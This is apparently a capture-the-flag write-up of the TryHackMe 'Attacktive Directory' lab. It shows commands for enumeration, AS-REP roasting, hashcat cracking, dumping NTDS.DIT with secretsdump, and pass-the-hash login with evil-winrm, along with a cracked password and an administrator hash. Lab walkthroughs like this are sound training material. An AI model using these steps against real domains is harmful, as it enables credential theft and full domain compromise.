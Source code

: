 ```yaml
---
title: Attacktive Directory
author: siresire
date: 2022-10-12 18:10:00 +0800
categories: [AD]
tags: [nmap, enum4linux,ASREPRoasting,Impacket,hashca,SMBClient, NTDS.DIT]
render_with_liquid: false
---
```


# Enumerations
## Nmap scan 

```yaml
nmap -sV -sC -A -T4 -oN nmap.scans 10.10.146.190 -vv
```

![Alt text](/assets/img/tryhackme/AD_01.png)

Alot of ports where open here and as per the look of thing , it looks like AD

### enumerating Port 139/445

```yaml
enum4linux -o spookysec.local
```

we found a domain name `THM-AD`
![Alt text](/assets/img/tryhackme/AD_02.png)


### Enumerating Users via Kerberos

Now that we have a domain name, we can enumerate the users via Kerberos, a key authentication service within Active Directory

installing of Kerberos [link 🔗](https://pypi.org/project/kerbrute/)

After installing Kerberos, I conducted a username spray, revealing two valid usernames: `james` ,`robin` and `svc-admin`. and other in with svc-admin has `NO-PREAUTH`


![Alt text](/assets/img/tryhackme/AD_03.png)

### Abusing Kerberos with an attack method called ASREPRoasting.

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

> ### Retrieving Kerberos Tickets

Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center.

GetNPUsers.py can be used to retrieve domain users who do not have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords. It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password. This attack is known as ASREProast.[🔗](https://tools.thehacker.recipes/impacket/examples/getnpusers.py)

```yaml
./GetNPUsers.py -no-pass -dc-ip 10.10.2.195 spookysec.local/svc-admin
```

![Alt text](/assets/img/tryhackme/AD_04.png)

Looking at the  hashcat example in wiki [🔗](https://hashcat.net/wiki/doku.php?id=example_hashes)

![Alt text](/assets/img/tryhackme/AD_05.png)

we found that the kerberos has was a `Kerberos 5 AS-REP etype 23` and the mode of the hash is `18200`.

Now we can crack the hash using hashcat

```yaml
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

![Alt text](/assets/img/tryhackme/AD_06.png)

Password found `management2005`

## Enumeration with password

After obtaining the password I tried to list smbshares 

```yaml 
smbclient -L 10.10.2.195 --user svc-admin
```
![Alt text](/assets/img/tryhackme/AD_07.png)


logged into the backup folder and obtained a credentials

```yaml
smbclient \\\\10.10.2.195\\backup --user svc-admin
```
![Alt text](/assets/img/tryhackme/AD_08.png)


## Escalation Elevating Privileges within the Domain 

After getting the credentials of backup account for the Domain Controller which has unique permission that allows all Active Directory changes to be synced with this user account including password hashes, I used another tool from Impacket this time called ‘secretsdump.py’ to dump NTDS.DIT


```yaml
./secretsdump.py -just-dc backup@spookysec.local 

```
![Alt text](/assets/img/tryhackme/AD_09.png)


using the hash of the administrator we can login into the machine using a tool know as `evil-winrm`

```yaml 
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.2.195
```

![Alt text](/assets/img/tryhackme/AD_10.png)